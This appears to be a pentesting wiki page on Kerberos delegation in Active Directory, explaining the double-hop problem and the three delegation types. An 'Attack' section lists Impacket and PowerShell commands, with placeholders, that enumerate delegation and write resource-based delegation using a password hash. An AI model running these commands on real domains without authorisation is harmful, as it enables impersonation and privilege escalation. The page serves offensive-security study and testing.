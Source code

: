 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Delegation

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=p9QFdITuvgU) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).
{% endhint %}

## TL;DR

**Access tokens** represent the **local security context** of a user, are cached in `LSASS` (SSO[^1]), and they are tied to a logon session's ID. Therefore, both the access token and the logon session exist on the same host (Figure 1)

<figure><img src="../../../../../.gitbook/assets/delegation_simple_atlas.png" alt=""><figcaption><p>Figure 1: Local authentication (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

**Credentials** represent the **network security context** of a user (hashes, tickets, etc.) and are **tied to a logon session**. Thus, if a user authenticates to an application with its access token, and then the application needs to authenticate to a remote server, the **double hop problem** arises (Figure 2).

<figure><img src="../../../../../.gitbook/assets/delegation_double_hop.png" alt=""><figcaption><p>Figure 2: The double hop problem (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

**Delegation aims to solve the double hop issue by allowing services to impersonate users, not only locally, but in the network**. In brief, the user sends its "whole" credentials  to the server, which results in a similar situation as if the user and the server were residing on the same host (Figure 3).

<figure><img src="../../../../../.gitbook/assets/delegation_example.png" alt=""><figcaption><p>Figure 3: How the delegation process works (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Kerberos delegations **allow services to impersonate domain users in order to access another service** and include 3 types:

1. [Unconstrained](unconstrained.md) (UD)
2. [Constrained](constrained.md) (CD)
3. [Resource-based](resource-based.md) (RBCD)

## Attack

Enumerate.

{% tabs %}
{% tab title="Impacket" %}
```bash
findDelegation.py '<domain>/<user>':'<pass>' -user <account>
```
{% endtab %}

{% tab title="PowerShell AD Module" %}
{% code overflow="wrap" %}
```powershell
# TrustedForDelegation -> KUD, TrustedToAuthForDelegation -> KCD+PT
# AllowedToDelegateTo -> KCD-PT, PrincipalsAllowedToDelegateTo -> RBCD
Get-ADComputer <account> -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% code overflow="wrap" %}
```bash
# assign delegation
impacket-rbcd '<domain>/<user>' -hashes <:hash> -k -delegate-from <account> -delegate-to <account> -action write -dc-ip <hostname> -use-ldaps
# check delegation
impacket-findDelegation '<domain>/<user>':'<pass>' -dc-ip <ip> -k
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Video-Lecture" %}
{% embed url="https://www.youtube.com/watch?v=p9QFdITuvgU" %}
{% endtab %}

{% tab title="Talk" %}
{% embed url="https://www.youtube.com/watch?v=byykEId3FUs" %}
{% endtab %}

{% tab title="Hacker Recipes" %}
{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations" %}
{% endtab %}

{% tab title="PDF Presentation" %}
[PDF Presentation](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf)
{% endtab %}
{% endtabs %}

[^1]: Single Sign-On
